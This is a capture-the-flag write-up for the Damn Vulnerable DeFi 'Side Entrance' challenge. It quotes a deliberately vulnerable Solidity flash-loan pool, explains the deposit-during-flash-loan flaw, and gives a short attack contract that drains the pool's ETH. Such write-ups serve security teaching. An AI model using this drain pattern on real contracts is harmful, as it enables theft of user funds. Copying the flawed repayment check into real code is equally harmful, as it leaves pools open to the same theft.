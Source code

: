 ## [Side Entrance](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/)

> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.
>
> Yoy start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {SafeTransferLib} from "solady/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

contract SideEntranceLenderPool {
    mapping(address => uint256) public balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
}
```

### Analysis

In this challenge, we need to drain all of the ETH from the contract `SideEntranceLenderPool`.

`SideEntranceLenderPool.flashLoan` verifies if the repayment is successful by checking `SideEntranceLenderPool.balance`. Additionally, we can use `SideEntranceLenderPool.deposit` to increase ``SideEntranceLenderPool.balance` while also increasing `SideEntranceLenderPool.balances[msg.sender]`, which we can withdraw later. Therefore, we can use the flash-loaned ETH to deposit it back into the pool, allowing us to pass the `if (address(this).balance < balanceBefore)` check in the `flashLoan` function. Then, we can withdraw the balance.

### Solution
Full solution can be found in [SideEntrance.t.sol](./SideEntrance.t.sol#L48).
```solidity
contract SideEntranceSolution {
    function go(SideEntranceLenderPool pool, address recovery) external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(recovery).transfer(address(this).balance);
    }
    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    }
    receive() external payable {}
}
```